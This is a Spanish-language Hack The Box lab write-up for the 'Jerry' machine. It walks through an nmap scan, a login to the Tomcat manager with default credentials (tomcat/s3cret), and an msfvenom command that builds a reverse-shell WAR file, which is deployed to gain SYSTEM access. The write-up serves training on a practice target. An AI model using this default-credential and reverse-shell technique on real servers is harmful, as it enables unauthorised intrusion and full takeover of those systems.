 ```yaml
---
layout: writeup
title: "HTB - Jerry"
date: 2022-07-8 
difficulty: "Very-Easy"
platform: "Windows"
description: "Writeup completo de la máquina Jerry..."
image: "/assets/images/jerry.png"
---
```


Hoy tocaremos una máquina muy fácil de iniciación, una máquina con la que vamos a practicar un rce a tomcat 

*********************************
# Enumeración

Como siempre lanzamos nmap y vemos que tiene solo un puerto abierto, el 8080. enmaramos el puerto y vemos un apache tomcat.

>Nmap 7.92 scan initiated Fri Jul  8 19:35:38 2022 as: nmap -sCV -p8080 -oN >versions 10.10.10.95
>Nmap scan report for 10.10.10.95
>Host is up (0.051s latency).

>PORT     STATE SERVICE VERSION
>8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
>|_http-favicon: Apache Tomcat
>|_http-title: Apache Tomcat/7.0.88
>|_http-open-proxy: Proxy might be redirecting requests
>|_http-server-header: Apache-Coyote/1.1





********************************
# Explotación Tomcat y Reverse shell

Abrimos el navegador y accedemos a la web por el puerto 8080, nos encontramos lo que parece un tomcat por defecto.

![inicial]({{site.baseurl}}/assets/images/Jerry/2022-07-08_193642.png)

Vamos a la opción Host manager y se nos abre una login de usuario, allí probamos el usuario admin y la contraseña admin pero nada, no nos da autorización.

Lo que si vemos es la pantalla de ejemplo de configuración de tomcat, donde nos da un ejemplo de usuario y contraseña. Usuario tomcat y contraseña s3cret. Probamos esas y bingo, el administrador no hizo bien su trabajo

![inicial]({{site.baseurl}}/assets/images/Jerry/2022-07-08_193753.png)

Vale, ya estamos como administrador, vemos que tenemos permisos para subir ficheros, en concreto unos [.war](https://www.arquitecturajava.com/modulos-de-java-ii-war/) de java.

Con msfvenom vamos a crear una reverse shell para poder subirla al tomcat y lograr acceso a la máquina.

>msfvenom -p java/jsp_shell_reverse_tcp LHOST= MI IP  LPORT= PUERTO  -f war > shell.war 

Esto nos creara un archivo war malicioso que cargaremos en el tomcat.

![inicial]({{site.baseurl}}/assets/images/Jerry/2022-07-08_195026.png)

Le damos a subir y nos aparecerá en el path de aplicaciones con el nombre que le hayamos puesto, solo nos queda ponernos en escucha con netcat y ejecutar el archivo .war.

![inicial]({{site.baseurl}}/assets/images/Jerry/2022-07-08_194915.png)

Pulsamos sobre el shell.war y listo ya estamos dentro.

![inicial]({{site.baseurl}}/assets/images/Jerry/2022-07-08_195109.png)

Hacemos un Whoami y vemos que somos ¡NT-Authority system! solo nos queda ir a por las flags ya que tenemos acceso pleno.

![inicial]({{site.baseurl}}/assets/images/Jerry/2022-07-08_195224.png)

Una máquina muy, muy sencilla de iniciación que está muy bien para conocer las reverse shell, nos vemos en otra máquina.
